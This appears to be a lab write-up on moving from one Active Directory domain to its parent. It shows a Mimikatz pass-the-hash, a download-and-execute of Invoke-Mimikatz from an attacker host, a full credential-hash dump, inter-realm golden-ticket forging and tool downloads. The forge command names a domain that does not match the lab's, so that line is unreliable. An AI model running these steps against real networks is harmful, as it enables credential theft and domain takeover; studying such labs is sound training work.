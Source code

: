 # Lateral Movement 2 - Child DC

- [Lateral Movement 2 - Child DC](#lateral-movement-2---child-dc)
  - [Over Pass-the-Hash to Child DC](#over-pass-the-hash-to-child-dc)
  - [Dumping the Forest Trust key](#dumping-the-forest-trust-key)
  - [Inter-realm TGT](#inter-realm-tgt)

----

## Over Pass-the-Hash to Child DC

Recall in the previous session, we have the following NTLM in the `OPERATIONS` domain:

* Krbtgt NTLM: `8e2b8effbf6735b8fb5be206cb3dfead`
* Administrator NTLM: `5984a430e639891136c94918e6846f24`

<br/>

Use Over-pass-the-hash technique to become Administrator:

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:operations.atomic.site /user:administrator /ntlm:5984a430e639891136c94918e6846f24 /run:powershell.exe"'
```

![picture 49](images/80eb084c86455d5825253a1fa78d891e0ba4e1539d1327267787c73f665c2e8b.png)  

<br/>

Get a PS Session on the Child DC:

```
Enter-PSSession -ComputerName OPS-CHILDDC.operations.atomic.site
```

<br/>

Then import Mimikatz:

```
iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.11/Invoke-Mimikatz.ps1"))
```

![picture 50](images/56f1f7a53a4d81dcc3107b8a157e4eec6d8221459239a674433c9b635fcbb79d.png)  

<br/>

## Dumping the Forest Trust key

Use `Mimikatz` to dump the forest trust key:

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

```
mimikatz(powershell) # lsadump::lsa /patch
Domain : OPERATIONS / S-1-5-21-3757735274-1965336150-1982876978

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 5984a430e639891136c94918e6846f24

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 8e2b8effbf6735b8fb5be206cb3dfead

RID  : 000001f7 (503)
User : DefaultAccount
LM   :
NTLM :

RID  : 00000456 (1110)
User : sysadmin
LM   :
NTLM : 33da4461cc64d97d6766bea54d8824c7

RID  : 0000045a (1114)
User : support
LM   :
NTLM : dd8ab1ad74d9faf1900eac349c8fb3e5

RID  : 0000045b (1115)
User : homi
LM   :
NTLM : 4d32b988b70b389423886883f666ed66

RID  : 0000045c (1116)
User : iyer
LM   :
NTLM : 493483461831ba82fe193fe01653da6a

RID  : 0000045d (1117)
User : sri
LM   :
NTLM : 50e3b28275dc32db9f2e82b2e25968e2

RID  : 0000045e (1118)
User : srv-db
LM   :
NTLM : c60cc979b81b15f2e23848eac75bef16

RID  : 0000045f (1119)
User : srv-auto
LM   :
NTLM : ea06afda9cb34106ddaf747108eb1af1

RID  : 00000461 (1121)
User : adm_domain
LM   :
NTLM : 3d15cb1141d579823f8bb08f1f23e316

RID  : 00000466 (1126)
User : iisadmin
LM   :
NTLM : 7e44e374b6a9d37380d77970d8e2e2dc

RID  : 000003e8 (1000)
User : OPS-CHILDDC$
LM   :
NTLM : 56f0486339dcdb3c826c24cff402ff89

RID  : 00000457 (1111)
User : DB-SERVER$
LM   :
NTLM : 69daa9e8178f21b00e90471107536f36

RID  : 00000458 (1112)
User : REPO-SERVER$
LM   :
NTLM : f3cbb96681af765b402de7b8624f8f5c

RID  : 00000459 (1113)
User : AUTOMATION-SERV$
LM   :
NTLM : ec502117e636abf5c60b6cb09b6203fa

RID  : 00000c1d (3101)
User : SCIENTIST-MACHI$
LM   :
NTLM : 872b1c234faa0e62e1b4797076053823

RID  : 0000044f (1103)
User : ATOMIC$
LM   :
NTLM : 72cc4221252de3dfd2b5446f5b8c0f10
```

![picture 51](images/60d62c7fe7176c809e61efd4cc4ba59ab3bccc14388c894e83c8c1eda3cfc232.png)  

* Forest Trust Key: `72cc4221252de3dfd2b5446f5b8c0f10`

<br/>

## Inter-realm TGT

To forge inter-realm TGT, we need the following information:
- `/sid`: SID of the current domain
  - Shown in the LSADUMP: `S-1-5-21-3757735274-1965336150-1982876978`
- `/sids`: SID of the Enterprise Admins Group
  - Use PowerView: `Get-DomainSID -Domain atomic.site`
- `/rc4`: Trust key
  - Dumped using DCSync: `72cc4221252de3dfd2b5446f5b8c0f10`


Use the following command to forge a inter-realm TGT:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-3757735274-1965336150-1982876978 /sids:S-1-5-21-95921459-2896253700-387377905-519 /rc4:72cc4221252de3dfd2b5446f5b8c0f10 /service:krbtgt /target:atomic.site /ticket:C:\Users\Public\forged.kirbi"'
```

![picture 52](images/75213d508181da8b5844a14b4b9930f63dccd389dbc3c0a39b7d8671d46756bf.png)  

<br/>

Download two more tools from the attacker machine:

```
wget http://192.168.100.11/asktgs.exe -OutFile .\asktgs.exe
wget http://192.168.100.11/kirbikator.exe -OutFile .\kirbikator.exe
```

